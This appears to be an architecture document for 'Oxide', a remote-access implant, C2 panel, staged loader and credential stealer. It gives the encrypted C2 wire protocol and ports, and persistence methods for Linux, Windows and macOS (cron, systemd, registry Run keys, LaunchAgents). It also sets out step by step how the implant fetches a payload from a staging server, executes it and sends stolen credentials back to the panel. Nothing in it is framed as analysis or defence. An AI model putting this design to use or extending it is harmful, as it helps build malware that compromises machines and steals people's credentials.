

# Oxide Architecture

## System Diagram



## Repos

| Repo | Role | Protocol boundary |
|------|------|-------------------|
| oxide | Implant + panel | TLS :4444 (C2), HTTP :8080 (staging + UI) |
| oxide-loader | Staged delivery | HTTP GET /api/staging/{id} |
| oxide-stealer | Credential extraction | stdin/stdout (subprocess) |

## Wire Protocol

All C2 traffic: `[4-byte LE length][AES-256-GCM ciphertext]` over TLS 1.3 with cert pinning.

```
Packet { id, seq, timestamp, type, data: serde_json::Value }
```

Staging: plain HTTP GET returning `application/octet-stream` + `X-Stage-SHA256` header.

## Persistence

| Platform | Methods | Stable path |
|----------|---------|-------------|
| Linux | cron, systemd user service, .bashrc | ~/.local/share/oxide/oxide-update |
| Windows | HKCU Run, ScheduledTask | %APPDATA%\oxide\oxide-update.exe |
| macOS | LaunchAgent, LoginItem | ~/Library/Application Support/oxide/oxide-update |

## Steal Command Data Flow

```
1. POST /api/bots/{hwid}/steal
2. Panel queries staging_payloads WHERE stage_number IS NULL — gets payload_id + sha256
3. Panel sends command {type="steal", args={payload_id, sha256, staging_url, timeout_secs}}
4. Implant: GET {staging_url}/api/staging/{payload_id}
5. Implant: validate sha256, write to ~/.local/share/oxide/.tmp/<uuid>, chmod 755
6. Implant: spawn subprocess (no extra args), capture stdout, delete tmp file on drop
7. Implant: send response with parsed JSON
8. Panel: save to stealer_results, emit STEAL_COMPLETED, display in Credentials tab
```
